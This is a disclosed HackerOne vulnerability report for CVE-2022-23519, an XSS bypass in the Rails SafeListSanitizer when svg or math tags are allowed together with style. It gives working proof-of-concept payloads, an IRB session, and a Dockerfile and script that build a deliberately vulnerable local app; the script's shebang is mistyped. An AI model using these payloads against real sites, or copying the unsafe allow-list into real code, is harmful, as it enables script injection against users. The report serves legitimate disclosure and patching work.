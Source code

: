 # CVE-2022-23519: Rails::Html::SafeListSanitizer vulnerable to XSS when certain tags are allowed (math+style || svg+style)

## Report Details
- **Report ID**: 1805899
- **URL**: https://hackerone.com/reports/1805899
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-14T21:22:40.860Z
- **Disclosed**: 2023-01-04T20:37:52.830Z

## Reporter
- **Username**: 0b5cur17y
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The following is from: https://hackerone.com/reports/1656627

## Intro

The Rails HTML sanitzier allows to set certain combinations of tags in it's allow list that are not properly handled. 
Similar to the report [1530898](https://hackerone.com/reports/1530898), which identified the combination`select` and `style` as vulnerable,
my fuzz testing from today suggests that also `svg` and `style` as well as `math` and `style` allow XSS.
The following are PoCs for each of these allow list:
- `svg` and `style`: `<svg><style><script>alert(1)</script></style></svg>`
- `math` and `style`: `<math><style><img src=x onerror=alert(1)></style></math>`

See the following IRB session: 
```
irb(main):016:0> require 'rails-html-sanitizer'
=> false
irb(main):017:0> Rails::Html::SafeListSanitizer.new.sanitize("<svg><style><script>alert(1)</script></style></svg>", tags: ["svg", "style"]).to_s
=> "<svg><style><script>alert(1)</script></style></svg>"
irb(main):018:0> Rails::Html::SafeListSanitizer.new.sanitize("<math><style><img src=x onerror=alert(1)></style></math>", tags: ["math", "style"]).to_s
=> "<math><style><img src=x onerror=alert(1)></style></math>"
irb(main):019:0> puts Rails::Html::Sanitizer::VERSION
1.4.3
=> nil 
```

## Sample Vulnerable Rails Application

To build a sample rails application that is vulnerable, I've used the following `Dockerfile`:

```
FROM ruby:3.1.2

RUN apt-get update && apt-get install -y vim

WORKDIR /usr/src/app
RUN gem install rails && rails new myapp
WORKDIR /usr/src/app/myapp


COPY build-rails-app.sh ./build-rails-app.sh
RUN sh ./build-rails-app.sh
RUN RAILS_ENV=production rails assets:precompile

CMD ["./bin/rails", "server", "-b", "0.0.0.0", "-e", "production"]
```

In the same directory, put a shell script `build-rails-app.sh` which writes the app:

```
#!/ibn/sh

# make routes
cat << EOF > ./config/routes.rb
Rails.application.routes.draw do
  get "/poc1", to: "poc1#index"
  get "/poc2", to: "poc2#index"
end
EOF

# make Poc1 endpoint
# http://localhost:8888/poc1?name=%3Csvg%3E%3Cstyle%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/style%3E%3Csvg%3E
bin/rails generate controller Poc1 index --skip-routes

cat << EOF > ./app/controllers/poc1_controller.rb
class Poc1Controller < ApplicationController
  def index
    @name = params[:name] || "put your name here"
  end
end
EOF


cat << EOF > ./app/views/poc1/index.html.erb
<h1> Hello <%= sanitize @name, tags: ["svg", "style"] %> </h1>
<br>
PoC with a sanitized, reflected parameter 'name' for which 'svg' annd 'style' tags are allowed.
<br>
<%= link_to "Go to PoC", "/poc1?name=<svg><style><script>alert(1)</script></style><svg>" %>
<br>
<br>
Using: rails-html-sanitizer <%= Rails::Html::Sanitizer::VERSION %>
EOF


# make Poc2 endpoint
# http://localhost:8888/poc2?name=%3Cmath%3E%3Cstyle%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3C/style%3E%3Cmath%3E
bin/rails generate controller Poc2 index --skip-routes

cat << EOF > ./app/controllers/poc2_controller.rb
class Poc2Controller < ApplicationController
  def index
    @name = params[:name] || "put your name here"
  end
end
EOF


cat << EOF > ./app/views/poc2/index.html.erb
<h1> Hello <%= sanitize @name, tags: ["math", "style"] %> </h1>
<br>
PoC with a sanitized, reflected parameter 'name' for which 'math' annd 'style' tags are allowed.
<br>
<%= link_to "Go to PoC", "/poc2?name=<math><style><img src=x onerror=alert(1)></style><math>" %>
<br>
<br>
Using: rails-html-sanitizer <%= Rails::Html::Sanitizer::VERSION %>
EOF
```

With the following `Makefile` you can build and run the application

```
.PHONY: build
build:
	docker build -t local/railspoc:latest .

.PHONY: run
run:
	docker run -it --rm -p 127.0.0.1:8888:3000 local/railspoc:latest
```

Now you have a Rails application with two routes `/poc1` and `/poc2` running locally. Visit:
- [http://localhost:8888/poc1?name=%3Csvg%3E%3Cstyle%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/style%3E%3Csvg%3E](http://localhost:8888/poc1?name=%3Csvg%3E%3Cstyle%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/style%3E%3Csvg%3E)
- [http://localhost:8888/poc2?name=%3Cmath%3E%3Cstyle%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3C/style%3E%3Cmath%3E](http://localhost:8888/poc2?name=%3Cmath%3E%3Cstyle%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3C/style%3E%3Cmath%3E)

See the screenshot in https://hackerone.com/reports/1656627 for what it will roughly look like. Both alerts should be executed.

## Impact

It is possible to bypass Rails::Html::SafeListSanitizer filtering and perform an XSS attack.

## Attachments
No attachments

